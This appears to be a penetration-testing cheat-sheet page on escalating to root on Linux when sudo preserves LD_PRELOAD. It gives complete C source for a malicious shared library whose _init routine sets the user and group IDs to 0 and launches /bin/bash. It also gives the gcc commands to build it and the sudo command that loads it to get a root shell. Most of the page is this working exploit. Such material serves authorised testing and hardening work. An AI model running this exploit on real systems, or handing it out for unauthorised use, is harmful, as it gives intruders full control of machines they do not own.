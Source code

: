 # Compiling

### LD\_PRELOAD

If you find inside the output of **`sudo -l`** the sentence: _**env\_keep+=LD\_PRELOAD**_ and you can call some command with sudo, you can escalate privileges.

```
Defaults        env_keep += LD_PRELOAD
```

Save as **/tmp/pe.c**

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```



Then **compile it** using:

```bash
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

Finally, **escalate privileges** running. Try full path in LD\_PRELOAD=

```bash
sudo LD_PRELOAD=pe.so <COMMAND>
```

If system doesnt have gcc you can cross compile

```
gcc ldpreload.c -o rootshell -fPIC -shared -nostartfiles -w 
```

